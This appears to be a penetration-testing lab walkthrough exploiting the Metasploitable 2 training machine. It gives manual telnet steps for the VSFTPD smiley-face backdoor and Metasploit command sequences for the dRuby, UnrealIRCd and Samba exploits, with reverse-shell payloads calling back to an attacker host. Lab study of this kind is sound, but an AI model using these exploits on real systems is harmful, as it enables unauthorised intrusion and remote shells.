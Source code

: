 # Exploiting Vulnerabilities Demonstration

Lets exploit the vulnerabilities we have found on the Metasploitable 2 box.
From the initial enumeration phase, we determined the following:

* Unreal IRCD - contains a backdoor
* VSFTPD - contains a backdoor
* dRuby RMI Server 1.8 - vulnerable to RCE
* Samba 3.0.20-Debian

## Exploiting VSFTPD

This example is a good beginner vulnerability to exploit. We will begin analyzing the source code to determine how the application is vulnerable. We will then exploit the service manually first. Afterwards, we will do the same using Metasploit. Recall that the privilege level of a shell is usually based on the context of the user account running the exploited application. In practice this means you can first gain a shell with one vulnerability, then chain another vulnerability to escalate permissions.

The vulnerability itself allows for a backdoor payload to be initiated with `: )` (a smiley face) in the username. This sets up a bind shell listener on port 6200.

Reviewing the [source](http://pastebin.com/AeT0sS5):

> else if((p_str->p_buf[i]==0x3a)
> && (p_str->p_buf[i+1]==0x29))
> {
> 	vsf_sysutil_extra()	
> }

`0x3a` translates to `:` Hex -> ASCII
`0x29` translated to `)` Hex -> ASCII

If the username contains this matching code (`:)`) the `csf_sysutil_extra()` function is called. Review lines 75 - 94 above. The key importance here is that this function sets up a socket on a listening address to port 6200 and establishes a `sh`. 

### Exploiting Manually

We already determined through the code that accessing the username with `:)` calls the vulnerable function to establish a backdoor.

We can then execute the following:
```bash  
# Setup the backdoor
telnet [metasploitable 2] 21
USER user:)
PASS pass
# Escape via ^] or Ctrl + C
# Scan to verify the backdoor is listening
sudo nmap 10.11.1.250 -p6200

# Confirm access
telnet 10.11.1.250 6200

# Verify user
id
```

### Exploiting with Metasploit

```bash
# Start msfconsole
msfconsole

# Select the exploit
use exploit/unix/ftp/vsftpd_234_backdoor

# List options - we only need a remote host for this
show options

# Show list of available payloads
show payloads

# There is only a single payload here
set payload cmd/unix/interact

# Set Remote Host RHOST
set rhosts 10.11.1.250

# Launch the exploit
run

## Sometimes it is necessary to run the exploit twice.
```

## Exploiting dRuby RMI Server 1.8

dRuby is a distributed object system written in Ruby. It uses its own protocol and binds itself to a URI like `druby://example.com` on port 8787.

:grey_exclamation:  - This exploit has been removed from the Metasploit Framework - while the service is still vulnerable it cannot be exploited with Metasploit.

```bash
# Start msfconsole
msfconsole

# Since we already know the name of the exploit:
search name:Distributed Ruby Send instance_eval/syscall Code Execution

# Select the exploit
use exploit/linux/misc/drb_remote_codeexec

# Set the payload
set payload cmd/unix/reverse_ruby

# Check options
show options

# Set the listening host
set lhost [IP ATTACK BOX] 
# or set by the VPN network interface
set lhost ppp0 

# Set the URI
set URI druby://[TARGET IP]:8787

# Launch
run
```

## Exploiting Unreal IRCD 3.2.8.1

```bash
# Start msfconsole
msfconsole

# Find the the right exploit to use
search unreal ircd

# Select the appropriate exploit
use exploit/unix/irc/unreal_ircd_3281_backdoor

# Determine what payloads are available
show payloads

# Set the payload we want
set payload cmd/unix/reverse_perl

# See what options are required
show options

# Set the remote host
set rhosts [IP target]

# Set the local host 
set lhost [IP attack box] or set lhost ppp0

# Launch the exploit
exploit
```

## Exploiting Samba 3.0.20-Debian

```bash
# Start msfconsole
msfconsole

# Select the usermap script module ??? How do we know this?
use multi/samba/usermap_script

# Set the target
set rhosts [target IP]

# Set payload
set payload cmd/unix/reverse

# Set the listener
set lhost ppp0
set lport 4444

# Launch the exploit
run
```

